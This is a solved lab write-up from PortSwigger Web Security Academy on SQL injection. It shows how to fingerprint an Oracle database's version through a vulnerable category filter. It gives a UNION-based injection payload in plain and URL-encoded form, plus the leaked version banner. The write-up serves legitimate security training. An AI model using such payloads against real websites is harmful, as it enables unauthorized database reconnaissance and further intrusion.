

# Lab 4: SQL Injection Attack — Querying the Database Type and Version on Oracle

**Source:** PortSwigger Web Security Academy
**Status:** ✅ Solved

## Background

Before exploiting a SQLi vulnerability further, it's useful to fingerprint
the database engine and version, since syntax (comments, string
concatenation, system tables) differs between engines.

| Database | Version query |
|---|---|
| Microsoft SQL Server / MySQL | `SELECT @@version` |
| Oracle | `SELECT * FROM v$version` (or `SELECT banner FROM v$version`) |
| PostgreSQL | `SELECT version()` |

Oracle requires every `SELECT` to have a `FROM` clause, so `v$version` —
a built-in system view — is used as the source table.

## Vulnerable endpoint

```
/filter?category=
```

## Payload

```
' UNION SELECT banner, NULL FROM v$version--
```

URL-encoded:
```
/filter?category=%27%20%20UNION%20SELECT%20banner,NULL%20FROM%20v$version--
```

The query returns 2 columns (determined the same way as Lab 3), so a
second `NULL` placeholder pads out the UNION to match.

## Result

The page returned multiple rows revealing the full Oracle version banner:

```
CORE 11.2.0.2.0 Production
NLSRTL Version 11.2.0.2.0 - Production
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production
PL/SQL Release 11.2.0.2.0 - Production
TNS for Linux: Version 11.2.0.2.0 - Production
```



## Key Takeaway

- Oracle's mandatory `FROM` clause and use of `v$version` is a
  distinguishing fingerprint versus MySQL/MSSQL's simpler `@@version`.
- Knowing the exact engine and version narrows down which system tables
  (e.g. `information_schema` vs `v$` views) and syntax quirks apply for
  further exploitation.
